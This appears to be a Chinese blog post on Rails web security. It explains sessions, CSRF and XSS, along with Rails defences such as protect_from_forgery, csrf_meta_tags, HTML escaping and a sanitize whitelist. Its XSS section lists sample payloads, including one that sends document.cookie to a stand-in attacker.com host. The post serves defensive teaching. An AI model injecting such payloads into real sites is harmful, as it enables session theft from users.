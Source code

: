 ```yaml
---
layout: post
title: Web安全
permalink: web-security
---
```


Rails作为一个成熟的框架，已经默认提供了必要的安全机制，从而使得小白也能初始化出安全的站点。但安全还在人心，
只有在开发中时刻注意，才不会留下漏洞。

一定要对网站的入口慎之又慎，不要理所当然用户会按照你的设计去进行输入！

# Sessions

> HTTP is a stateless protocol. Sessions make it stateful.

Session机制是为了解决web的无状态特性，通过浏览器回传cookies来确认当前的session。


# Cross-Site Request Forgery (CSRF)
CSRF，跨站伪装请求。

CSRF的场景是：访问一个黑站，结果在里面有一个链接被浏览器自动加载访问，而这个链接可能执行是删除、关注等操作。

起因：在浏览器请求一个URL时，会顺便得到这个网站的cookies。有了cookies就有了权限，如果请求的那个
URL是在另一个网站中嵌入的，比如：

```html
<img src="http://target.com/1/destroy" />
```

那么就会执行相应的操作。浏览器并不知道这是否是用户的本意，只会按部就班的去解析，遇到img的src就去请求。

应对：对非GET需要验证安全令牌，只有通过才能给执行。而这个安全令牌是Server在render表单等时自己生成的。

在Rails中，只需要在最顶层的ApplicationController中加入：

```rb
protect_from_forgery with: :exception
```

然后在最顶层的layout文件的head中加入：

```
<%= csrf_meta_tags %>
```

# Cross-Site Scripting (XSS)
跨站执行脚本，等于别人可以在你的网站页面上写自己的代码。十分恐怖！

流程：黑客注入代码，网站保存，受害者打开网站执行代码。

## HTML/JavaScript 注入

```html
<script>alert('Hello');</script>

<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">


<script>document.write(document.cookie);</script>
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>

```

## 防御

使用escapeHTML()或它的alias h()对二次显示的输入内存进行转义，这样
字符&,",<,>就变成了&amp;,&quot;&lt;和&rl;了。

能被浏览器还原，但是不能执行。

但是有时确实需要让用户输入带标签的文本啊！

使用[sanitize()](http://api.rubyonrails.org/classes/ActionView/Helpers/SanitizeHelper.html)，
它只运行白名单里的tag和attributes显示：

```rb
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
```

# Redirection

# File Upload/Download

上传下载时，对文件名进行过滤，保证其安分呆在指定的目录里。

# SQL 注入


# 参考
* http://guides.rubyonrails.org/security.html
